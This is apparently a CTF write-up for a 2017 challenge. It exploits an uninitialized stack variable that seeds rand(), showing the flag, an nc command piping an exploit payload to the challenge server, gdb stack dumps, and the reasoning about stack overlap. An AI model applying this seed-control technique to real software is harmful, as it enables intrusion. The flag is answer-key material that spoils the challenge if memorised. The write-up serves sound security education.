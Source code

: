 # CTF101 2017: Day 2 Challenge 5

## Type of challenge

- Psuedo-random generators
- Uninitalized variables

## Flag

```
ctf{mining_gold_like_goldfish}
```

---

## Exploit

```
./exploit | nc pwn.dystopia.sg 2468
```

### Notes

- `rand()` uses the value of `seed` as the seed, which is an uninitialized variable.

#### When exiting `create_miner` stack frame

- Size of stack = `100` + `4` + `4`:
    - Push `char name[100]`
    - Push `int seed`
    - Push `int id`
- We can see that the stack variables start after `0xffffd2dc`.
- After exiting, `$esp` is set to value of `$ebp`, which reduces it by `108` bytes.

```
(gdb) x/32xw $esp
0xffffd270:	0xf7faed60	0x5ae99de7	0x41414141	0x41414141
0xffffd280:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd290:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2d0:	0x41414141	0x41414141	0xffffd200	0x26eace00
0xffffd2e0:	0x08048987	0xffffd3a4	0xffffd2f8	0x080488e1
```

#### When entering `mine_gold` stack frame:

- Size of stack = `4` + `4` + `4`:
    - Push `int secret`
    - Push `int seed`
    - Push `int input`
- We know the address of `seed`, from the offset from what we found earlier. 
    - `print &seed` gives us `0xffffd2d4`
    - Contents of `0xffffd2d4` = `0x41414141` (or 1094795585 in decimal)

```
(gdb) x/8xw $esp
0xffffd2d0:     0x41414141      0x41414141      0xffffd200      0x26eace00
0xffffd2e0:     0x08048987      0xffffd3a4      0xffffd2f8      0x080488e6
```

- After `scanf` and `srand(seed)`:
    - We can see that `secret` (`0xffffd2d8`) is equal to `input` (`0xffffd2d0`).

```
(gdb) x/8xw $esp
0xffffd2d0:     0x79ef55a0      0x41414141      0x79ef55a0      0x26eace00
0xffffd2e0:     0x08048987      0xffffd3a4      0xffffd2f8      0x080488e6
```

- We can predictably know the value of `rand()` if we know the seed value.
    - See `exploit.c` which uses the same seed value to generate a payload.
    - Actually, we can immediately extract out the value of `secret` from `gdb` itself, but let's assume that the seed is slightly more complicated (involves `time()` or something), so we create a C program to generate a payload which can be piped to `nc`.
